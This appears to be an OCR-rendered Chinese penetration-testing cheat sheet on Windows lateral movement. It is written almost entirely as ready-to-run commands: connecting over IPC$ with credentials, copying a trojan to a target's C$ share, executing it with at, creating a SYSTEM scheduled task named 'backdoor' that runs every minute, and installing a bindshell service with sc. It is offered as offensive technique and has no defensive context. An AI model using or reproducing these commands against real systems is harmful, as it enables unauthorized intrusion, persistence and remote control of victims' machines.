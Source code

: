 ## 横向渗透

【横 向】：利⽤ ipc，wmi，winrm 横向移动，务必学会

### IPC$连接

通过 ipc$，可以与目标机器建立连接。利用这个连接，不仅可以访问目标机器中的文件，进行上传、下载等操作，还可以在目标机器上运行其他命令，以获取目标机器的目录结构、用户列表等信息。  
命令如下

```bash
##这里前提是知道用户和密码，也可以用 psexec 模块
net use \\IP\ipc$ "password" /user:"username" //建立链接
net use
## dir 命令查看
dir \\IP\c$
## copy 赋值木马
copy C:\a.exe \\IP\C$ //复制 a.exe 到目标 C 盘
```

### `at命令执行木马`

```bash
net time \\IP
copy shell.exe \\IP\C$
at \\IP 18:53:00 C:\shell.exe  # 定义一个定期时间进行执行 shell.exe
```

### Schtask 命令

步骤如下，在 Windows Server 2008 之后，就不再存在 at 命令，可利用命令 `schtasks`

1.  与目标主机建立连接
2.  利用 copy 命令进行远程操作，复制木马到目标主机
3.  在目标主机创建计划任务，这里命名为 `backdoor`，该计划任务每分钟启动一次，且启动权限为`system`

命令如下  
这里

```bash
schtasks /create /s IP 地址 /u administrator /p Liu78963 /tn backdoor /sc minute /mo 1 /tr c:\shell.exe /ru system /f

schtasks /run /s IP 地址 /i /tn backdoor

schtasks /create /s IP 地址 /tn test /sc minute /mo 1 /tr "C:\Windows\System32\cmd.exe /c 'whoami > C:\result.txt'" /ru system /f
```

### SC 命令

```bash
sc \\[主机名/IP] create [servicename] binpath= "[path]"   #创建计划任务启动程序
sc \\WIN-ENS2VR5TR3N create bindshell binpath= "c:\bind.exe"

sc \\WIN-ENS2VR5TR3N start bindshell  # 启动服务
```
